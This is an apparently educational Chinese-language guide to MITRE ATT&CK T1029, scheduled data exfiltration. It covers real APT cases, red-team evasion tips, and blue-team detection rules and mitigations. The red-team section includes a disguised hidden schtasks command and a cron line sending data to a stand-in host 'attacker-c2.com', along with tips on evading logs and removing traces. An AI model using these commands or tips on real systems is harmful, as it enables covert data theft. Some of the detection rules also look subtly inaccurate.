

# 定时传输 (T1029)

## 一句话通俗理解

就像小偷设定凌晨3点自动搬运赃物，趁保安打瞌睡的时候把东西运出去。

## 难度等级

- ⭐⭐ 中级（需要一定基础）

## 技术描述

定时传输（T1029）是MITRE ATT&CK框架中渗漏战术的一种技术。

**通俗解释：**
攻击者不立即传输窃取的数据，而是设定一个未来的时间点或周期性间隔，在预定条件满足时自动启动数据传输。这就像你在手机上下载大文件时选择"凌晨下载"，利用夜间网速快且没人用网络的时候完成。攻击者选择安全监控薄弱的时间段（深夜、周末、节假日）进行传输。

**技术原理：**

1. 攻击者在目标系统上创建计划任务或定时作业（Windows Task Scheduler、Linux cron、systemd timers）
2. 设定触发条件为特定时间（如每天凌晨2:00）或周期性间隔
3. 计划任务执行数据收集、压缩、加密和传输脚本
4. 完成后可自行删除计划任务以减少取证痕迹

**用途与影响：**
定时传输帮助攻击者规避基于时间的异常检测。深夜的传输可以避开安全人员的实时监控，周期性的传输模式可以伪装为正常业务系统的维护任务。攻击者还可以将传输时间设置在企业备份窗口或系统更新时段，使流量与合法操作混合。

## 子技术列表

**该技术没有子技术。**

## 攻击流程

### 典型攻击流程

```
植入恶意软件 --> 创建计划任务 --> 设定触发时间 --> 启动传输 --> 任务自行清理
```



**步骤详解：**

1. **获得系统控制权**
   - 通俗描述：攻击者先攻陷目标系统，获得足够的执行权限
   - 技术细节：通过漏洞利用或凭证窃取获得管理员权限
   - 常用工具：Cobalt Strike、Metasploit

2. **创建计划任务**
   - 通俗描述：在系统里设置一个定时任务
   - 技术细节：使用schtasks命令或API创建计划任务
   - 常用工具：schtasks.exe、cron、systemd-timers

3. **设定定时触发条件**
   - 通俗描述：设置什么时间执行，比如每天凌晨2点
   - 技术细节：选择非工作时间或维护窗口，模拟合法任务名称
   - 常用工具：schtasks /create /sc daily /st 02:00

4. **任务触发→收集数据**
   - 通俗描述：时间到了任务自动运行，先把数据收拢
   - 技术细节：脚本搜索指定目录中的目标文件类型
   - 常用工具：PowerShell脚本、Bash脚本

5. **传输到C2服务器**
   - 通俗描述：把数据通过互联网发送到攻击者的服务器
   - 技术细节：使用HTTPS、FTP等协议传输
   - 常用工具：curl、PowerShell Invoke-WebRequest、BITSAdmin

6. **清理证据**
   - 通俗描述：传输完后删除临时文件和日志
   - 技术细节：删除计划任务本身或日志文件
   - 常用工具：schtasks /delete、自删除脚本

## 真实案例

### 案例1：APT27使用计划任务持续渗出（2015-2018）

- **时间**: 2015-2018年
- **目标**: 全球军工、航空航天行业
- **攻击组织**: APT27（Emissary Panda）
- **手法**: APT27在受感染系统上创建计划任务，每天凌晨2:00执行PowerShell脚本，将当天收集的数据打包并通过HTTPS上传到C2服务器。计划任务被命名为类似Windows系统更新或备份的名称，以融入正常的计划任务列表。攻击者使用多级计划任务链：一个任务负责数据收集，另一个任务负责压缩和加密，第三个任务负责传输，任务之间留有30分钟的间隔窗口。
- **影响**: 多个军工企业敏感数据被盗
- **参考链接**: [MITRE ATT&CK - APT27](https://attack.mitre.org/groups/G0018/)

### 案例2：MuddyWater使用Windows Task Scheduler定期渗出（2018-2019）

- **时间**: 2018-2019年
- **目标**: 中东电信、政府机构
- **攻击组织**: MuddyWater（SeedWorm）
- **手法**: MuddyWater使用名为POWERSTATS的PowerShell后门，通过Windows Task Scheduler设置周期性渗出任务。计划任务设定为每5分钟执行一次，但通过随机抖动（在3-8分钟范围内随机延迟）避免规律的周期性特征，同时绕过基于固定间隔的异常检测规则。
- **影响**: 多个中东政府机构数据泄露
- **参考链接**: [MITRE ATT&CK - MuddyWater](https://attack.mitre.org/groups/G0069/)

### 案例3：APT32使用计划任务实现长期驻留和渗出（2017-2020）

- **时间**: 2017-2020年
- **目标**: 东南亚制造业、消费品行业
- **攻击组织**: APT32（OceanLotus）
- **手法**: APT32在受感染系统中部署了多个计划任务，其中一个任务在每周五下午6:00触发数据渗出。选择周五下班时间可以减少传输过程中的干预风险。渗出任务将收集到的商业文档压缩为加密的RAR文件，然后通过FTP上传到位于不同国家的中转服务器。
- **影响**: 多个制造业企业商业机密被盗
- **参考链接**: [MITRE ATT&CK - APT32](https://attack.mitre.org/groups/G0057/)

### 案例4：RI Bridges数据泄露中的计划任务使用（2024）

- **时间**: 2024年07月-11月
- **目标**: 美国罗德岛州居民健康数据系统
- **攻击组织**: 未知
- **手法**: 攻击者在获得VPN访问权限后，在域控制器上创建了计划任务来执行一个定制版的反向代理工具，用于保持对环境的访问。同时配置了远程监控和管理（RMM）工具，通过计划任务维持持久连接。在2024年9月至11月期间，397次防火墙告警记录了大规模出站传输到外部云存储提供商的行为。
- **影响**: 28台服务器数据被渗漏，大量居民健康保险数据泄露
- **参考链接**: [Rhode Island RIBridges Investigation Summary](https://rhodeislandcurrent.com/wp-content/uploads/2025/05/RIBridges-Investigation-Summary-EMBARGOED.pdf)

### 案例5：ALPHV/BlackCat附属团伙使用计划任务定时渗漏（2023-2024）

- **时间**: 2023年-2024年02月
- **目标**: 全球医疗、金融行业
- **攻击组织**: ALPHV（BlackCat）
- **手法**: ALPHV/BlackCat勒索软件附属团伙在攻陷目标网络后，使用Windows Task Scheduler创建多个伪装为系统更新的计划任务，分别负责数据收集、压缩和定时外传。计划任务被设定在非工作时间（当地时间凌晨1:00-4:00）触发PowerShell脚本，使用Rclone工具将压缩后的数据上传到Wasabi云存储和Mega.nz。部分计划任务设置了随机抖动（±30分钟）来避免规律的周期性特征。CISA联合FBI在2024年2月发布的联合报告中明确指出，BlackCat附属团伙"利用计划任务在非业务时段渗漏数据以逃避检测"。该团伙在2023年12月至2024年2月期间攻击了近70个已知受害者，医疗行业受害最为严重。
- **影响**: 全球近70个组织数据被窃取，Change Healthcare等医疗巨头受影响
- **参考链接**: [CISA AA23-353A - #StopRansomware: ALPHV Blackcat](https://www.cisa.gov/news-events/cybersecurity-advisories/aa23-353a)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **任务名称伪装**
   将计划任务命名为类似系统更新或安全扫描的名称，如"WindowsUpdateCheck"、"McAfeeScheduledScan"等。更高级的做法是克隆已有系统任务的名称，稍微修改路径和参数。

2. **触发时间随机化**
   不要在每天的同一时间触发，使用随机抖动。例如设置任务每4小时触发，但随机偏移±30分钟。工具实现：PowerShell的 `(Get-Random -Minimum -1800 -Maximum 1800)` 可在脚本中动态生成偏移量。

3. **使用内置工具**
   使用系统自带的工具（BITSAdmin、PowerShell）进行数据传输，避免额外上传第三方工具增加风险。

4. **利用系统更新窗口**
   将定时传输的时间设置在企业备份窗口和系统更新时段（如凌晨1:00-4:00），使流量与合法操作混合在一起，极大增加蓝队区分难度。

5. **多阶段任务链设计**
   将数据收集、压缩加密和传输拆分为多个独立的计划任务，每个任务间隔15-30分钟。这样即使某个任务被检测到，攻击者损失的也只是一个环节，而非整个渗漏管道。

6. **XML任务文件直接导入**
   绕过`schtasks /create`的日志记录，直接在 `%WINDIR%\System32\Tasks\` 目录下创建XML任务定义文件，然后通过`schtasks /create /xml`导入。这种方法可以更精确地控制任务参数，且XML文件可以被设置为具有更深的隐蔽性。

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| schtasks | Windows计划任务管理 | Windows | 系统内置 |
| cron | Linux定时任务 | Linux | 系统内置 |
| systemd-timers | Linux现代定时任务 | Linux | 系统内置 |
| BITSAdmin | Windows后台智能传输 | Windows | 系统内置 |
| at | 一次性计划任务 | Windows/Linux | 系统内置 |
| PowerScheduledTasks | PowerShell计划任务模块 | Windows | 系统内置 |
| launchd | macOS定时任务 | macOS | 系统内置 |

### 命令行示例

```batch
:: 创建一个伪装为系统更新的计划任务，每天凌晨2点执行PowerShell脚本
schtasks /create /tn "MicrosoftWindowsUpdateCheck" /tr "powershell.exe -WindowStyle Hidden -EncodedCommand <base64_encoded_script>" /sc daily /st 02:00 /ru SYSTEM /f

:: 使用XML导入方式创建任务（绕过部分日志记录）
schtasks /create /tn "AdobeFlashPlayerUpdate" /xml "C:\Windows\Tasks\AdobeUpdate.xml" /f

:: Linux crontab 示例 - 每6小时随机抖动执行
0 */6 * * * sleep $((RANDOM % 1800)) && /usr/bin/curl --data-binary @/tmp/data.tar.gz https://attacker-c2.com/upload

:: macOS launchd plist 示例
launchctl load /Library/LaunchDaemons/com.apple.softwareupdate.plist
```

### 注意事项

- 避免使用过于显眼的时间设置（如每天精确的同一时间，或频繁的1分钟轮询）
- 计划任务的执行用户应使用低权限账户避免触发告警，但需确保该账户有读取目标数据的权限
- 传输完成后及时清理计划任务和临时文件，计划任务删除本身也会产生事件ID 4699日志
- 注意计划任务XML文件中可能包含任务创建者的SID信息，清理时需覆盖

## 蓝队视角

### 检测要点

1. **非授权计划任务创建**
   - 日志来源：Windows事件日志（Event ID 4698 - 计划任务创建）
   - 关注字段：任务名称、任务内容、创建者账户、触发时间
   - 异常特征：非管理员账户创建计划任务、任务名称与系统任务相似但执行可疑命令
   - 检测命令：
   ```powershell
   # 列出最近7天创建的计划任务
   Get-ScheduledTask | Where-Object {$_.Date -gt (Get-Date).AddDays(-7)}
   
   # 检查包含可疑命令的计划任务
   Get-ScheduledTask | Get-ScheduledTaskInfo | Select-Object TaskName, LastRunTime, NextRunTime
   ```

2. **计划任务XML文件创建**
   - 日志来源：Sysmon Event ID 11（文件创建）、Event ID 4698（任务创建）
   - 关注字段：%WINDIR%\System32\Tasks\目录下的XML文件写入
   - 异常特征：非系统更新或软件安装期间在该目录下创建XML文件

3. **非工作时间网络活动**
   - 日志来源：网络流量日志、防火墙日志
   - 关注字段：源IP、目标IP、时间戳、传输数据量
   - 异常特征：非工作时间的大流量出站传输、连接到已知恶意IP
   - 检测命令：
   ```bash
   # 使用Zeek分析时间段内的出站流量
   zcat /var/log/zeek/conn.*.gz | awk -F'\t' '$1 ~ /^02:00:00/ || $1 ~ /^03:00:00/ || $1 ~ /^04:00:00/ {print $0}' | wc -l
   ```

4. **脚本执行计划任务**
   - 日志来源：Sysmon Event ID 1（进程创建）
   - 关注字段：命令行参数、父进程、执行用户
   - 异常特征：计划任务执行PowerShell、cURL等网络工具
   - PowerShell脚本块日志（Event ID 4104）中的异常编码命令或网络请求

5. **计划任务权限滥用**
   - 日志来源：Event ID 4702（任务更新）、Event ID 4698
   - 关注字段：任务创作者SID、任务用户身份
   - 异常特征：低权限用户创建以SYSTEM或管理员账户运行的任务

6. **隐藏计划任务检测**
   - 日志来源：Event ID 4698 + 注册表检测
   - 检测方法：某些恶意软件将计划任务XML文件标记为隐藏属性，或使用特殊字符伪装任务名称
   - 检测命令：
   ```powershell
   # 检测隐藏属性的任务文件
   Get-ChildItem -Path "C:\Windows\System32\Tasks" -Force | Where-Object {$_.Attributes -match "Hidden"}
   ```

### 监控建议

- 建立计划任务的基线清单，定期比对发现新增任务。建议使用PowerShell脚本每日导出任务列表并与基线比较
- 启用PowerShell ScriptBlock日志（Event ID 4104）记录所有计划任务执行的脚本内容
- 对非工作时间的大流量出站传输实施告警，特别是凌晨0:00-5:00期间
- 在关键服务器上部署Sysmon，配置规则监控计划任务的创建和执行
- 使用Windows Event Log的订阅功能，集中收集域内所有计划任务创建事件

## 检测建议

### 网络层检测

**检测方法：** 监控非工作时间的异常网络流量峰值，重点关注凌晨时段的出站数据量突增。

**具体规则/命令示例：**

```
# 使用Zeek/Bro监控非工作时间HTTP POST流量
# 关注连接持续时间长、数据量大的会话

# Zeek脚本示例 - 检测非工作时段的大流量出站
event http_request(c: connection, method: string, original_uri: string, unescaped_uri: string, version: string)
{
    local time_hour = hour(c$start_time);
    if (time_hour >= 0 && time_hour <= 5 && c$http$request_body_len > 50000000) {
        NOTICE([$note=Exfiltration::Scheduled_Transfer,
                $msg=fmt("非工作时间大流量出站: %s -> %s, 大小: %d",
                         c$id$orig_h, c$id$resp_h, c$http$request_body_len),
                $conn=c]);
    }
}
```

**示例（Suricata规则）：**
```
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"T1029 - 非工作时间大流量出站传输"; flow:to_server; http.method; content:"POST"; http.request_body; length:>100000000; classtype:trojan-activity; sid:1001029; rev:1;)

# 增强版 - 检测凌晨时段的计划性传输
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"T1029 - 凌晨时段周期性出站传输"; flow:to_server; http.method; content:"POST"; http.request_body; length:>10000000; pcre:"/^(00|01|02|03|04)/"; classtype:trojan-activity; sid:1001029_2; rev:1;)
```

### 主机层检测

**检测方法：** 审计新建的计划任务。

**Windows事件ID：**
- 事件ID 4698：计划任务创建
- 事件ID 4699：计划任务删除
- 事件ID 4700：计划任务启用
- 事件ID 4702：计划任务更新

**Linux日志：**
- 日志文件：/var/log/cron 或 /var/log/syslog
- 关键字段：CRON命令、执行的脚本路径

**具体命令示例：**
```bash
# 查看所有cron作业
for user in $(cut -f1 -d: /etc/passwd); do crontab -u $user -l; done

# 查看systemd定时器
systemctl list-timers --all
```

### 应用层检测

**检测方法：** 监控计划任务执行上下文。

**Sigma规则示例：**
```yaml
title: 检测可疑的计划任务创建
status: experimental
description: 检测非管理员创建的计划任务，任务名称可疑
logsource:
    category: process_creation
    product: windows
detection:
    selection:
        EventID: 4698
        TaskName|contains:
            - 'Updater'
            - 'Update'
            - 'Scan'
        TaskContent|contains:
            - 'powershell'
            - 'cmd.exe'
            - 'curl'
            - 'bitsadmin'
            - 'net use'
    condition: selection
level: high
tags:
    - attack.t1029
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 限制计划任务创建权限

**具体实施步骤：**
1. 通过组策略限制非管理员账户创建计划任务
2. 定义谁可以创建和管理计划任务
3. 对计划任务的创建和修改实施审计

**配置示例：**
```
# 组策略：限制计划任务创建
计算机配置 -> 管理模板 -> Windows组件 -> 任务计划程序
-> 禁止创建新任务 -> 已启用
```

### 优先级2：重要措施

**措施名称：** 监控和基线比对

**具体实施步骤：**
1. 建立关键系统的计划任务基线
2. 定期比对当前任务列表与基线
3. 对新增或修改的任务触发告警

### 优先级3：建议措施

**措施名称：** 限制脚本执行环境

**具体实施步骤：**
1. 限制PowerShell在执行计划任务上下文中的网络访问权限
2. 使用AppLocker控制可执行文件来源
3. 启用PowerShell受限语言模式

### 优先级4：技术措施

**措施名称：** 计划任务监控与告警自动化

**具体实施步骤：**
1. 部署计划任务变更监控脚本，当检测到新计划任务创建时自动触发告警
2. 对包含可疑关键词（PowerShell、curl、BITSAdmin、net use等）的任务自动隔离
3. 将计划任务创建事件关联到SOAR平台，实现自动化响应

**PowerShell监控脚本示例：**
```powershell
# 每日导出计划任务列表并与基线比对
$baseline = Import-Clixml -Path "C:\Baselines\ScheduledTasks.xml"
$current = Get-ScheduledTask | Select-Object TaskName, TaskPath, State, Actions
$diff = Compare-Object -ReferenceObject $baseline -DifferenceObject $current -Property TaskName
if ($diff) {
    Send-MailMessage -To "soc@company.com" -Subject "计划任务变更告警" -Body ($diff | Out-String)
}
```

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1018 | 用户账户控制 | 适用 | 限制非管理员创建计划任务 |
| M1042 | 禁用或移除功能 | 适用 | 禁用不必要的计划任务创建接口 |
| M1026 | 权限审计 | 适用 | 审计计划任务的创建和修改 |
| M1047 | 审计 | 适用 | 开启计划任务创建/修改/删除的详细审计 |
| M1038 | 执行防护 | 适用 | 通过AppLocker限制计划任务中的脚本执行 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| 本地虚拟机 | 虚拟靶场 | 初级 | VMware/VirtualBox |

**所需工具：**
- Windows系统（实验用）
- Linux系统（实验用）
- 任务计划程序管理控制台

### 实验1：创建计划任务进行定时数据传输（初级）

**实验目标：** 创建计划任务模拟定时数据渗出。

**实验步骤：**
1. 在Windows中创建一个测试文件
2. 使用schtasks创建计划任务，设定1分钟后执行
3. 配置任务内容：将测试文件复制到指定目录
4. 验证任务执行结果
5. 使用事件查看器查看任务执行日志

**预期结果：** 计划任务在设定时间自动执行，文件被复制到目标位置。

### 实验2：检测异常计划任务（中级）

**实验目标：** 使用Windows事件日志识别可疑计划任务。

**实验步骤：**
1. 清空测试机的事件日志
2. 创建一个伪装为系统更新的计划任务
3. 手动触发该任务
4. 在事件查看器中定位任务创建和执行事件
5. 分析任务创建的异常特征

**预期结果：** 能够在日志中定位到计划任务的创建和执行活动。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| C2 | Command and Control | 命令与控制，攻击者用来遥控受害电脑的通道，就像遥控器的信号 |
| cron | 定时任务守护进程 | Linux系统中的一个服务，按照设定好的时间表自动执行任务，就像家里的智能插座定时开关 |
| DLP | Data Loss Prevention | 防数据泄露系统，检测和阻止敏感数据外传的安全系统 |
| 计划任务 | Scheduled Task | Windows系统中的定时任务功能，可以设定在特定时间自动运行程序 |
| systemd timer | systemd定时器 | Linux新版系统中的定时任务机制，是cron的现代替代品 |
| schtasks | Schedule Tasks | Windows系统管理计划任务的命令行工具 |
| 随机抖动 | Jitter | 在定时任务触发时间中加入随机偏移量，让执行时间不完全规律，就像快递员每天送货时间不完全一样——猫（安全监控）就摸不清规律了 |
| 启动触发器 | Boot Trigger | 计划任务的一种触发条件，系统启动时自动执行，攻击者常在系统重启后自动激活后门 |
| 空闲触发器 | Idle Trigger | 系统空闲一段时间后触发的任务，攻击者利用此特性在用户离开电脑后启动数据传输 |
| 任务链 | Task Chain | 多个计划任务按顺序串联执行，每个任务完成特定步骤（收集→压缩→加密→传输），上一个任务的输出作为下一个任务的输入 |
| 事件触发器 | Event Trigger | 在特定系统事件（如用户登录、文件创建）发生时触发的计划任务，攻击者可以监听文件系统事件自动窃取新文件 |
| COM对象 | COM Handler | Windows组件对象模型中用于计划任务执行的接口，攻击者可以通过注册COM对象劫持计划任务执行 |

## 参考资料

### 官方文档

- [MITRE ATT&CK - T1029](https://attack.mitre.org/techniques/T1029/)

### 安全报告

- [MITRE ATT&CK - APT27 Group](https://attack.mitre.org/groups/G0018/) - APT27计划任务渗出案例
- [MITRE ATT&CK - MuddyWater Group](https://attack.mitre.org/groups/G0069/) - MuddyWater定时渗出案例
- [MITRE ATT&CK - APT32 Group](https://attack.mitre.org/groups/G0057/) - APT32定时渗出案例

### 工具与资源

- [Windows Task Scheduler文档](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-scheduler-start-page) - 微软官方计划任务文档
- [Linux crontab教程](https://man7.org/linux/man-pages/man5/crontab.5.html) - Linux crontab手册
